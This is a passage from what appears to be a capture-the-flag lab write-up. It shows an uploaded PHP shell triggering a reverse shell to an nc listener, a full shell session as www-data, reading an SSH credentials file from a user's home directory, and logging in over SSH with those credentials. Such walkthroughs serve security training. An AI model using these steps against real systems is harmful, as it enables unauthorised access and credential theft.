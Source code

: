 Check `http://10.10.224.144:1337/upload-cv00101011/upload_thm_1001/` we have upload shell.

`nc -lvnp 1234` and go to `http://10.10.224.144:1337/upload-cv00101011/upload_thm_1001/shell.php`

```
nc -lvnp 1234
Listening on [0.0.0.0] (family 0, port 1234)
Connection from 10.10.224.144 55876 received!
Linux ip-10-10-224-144 5.15.0-1039-aws #44~20.04.1-Ubuntu SMP Thu Jun 22 12:21:12 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 03:21:55 up  1:05,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ cd /home	
$ ls
ubuntu
zeamkish
$ sudo -l
sudo: a terminal is required to read the password; either use the -S option to read from standard input or configure an askpass helper
$ cd zeamkish
$ ls
flag.txt
ssh_creds.txt
$ cat flag.txt
cat: flag.txt: Permission denied
$ cat ssh_creds.txt
SSH CREDS
zeamkish
[REDACTED]
```

`ssh zeamkish@10.10.224.144`

```
zeamkish@10.10.224.144's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.15.0-1039-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Jun  1 03:24:08 UTC 2024

  System load:  0.13              Processes:             127
  Usage of /:   7.3% of 58.09GB   Users logged in:       0
  Memory usage: 17%               IPv4 address for eth0: 10.10.224.144
  Swap usage:   0%

 * Ubuntu Pro delivers the most comprehensive open source security and
   compliance features.

   https://ubuntu.com/aws/pro

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
```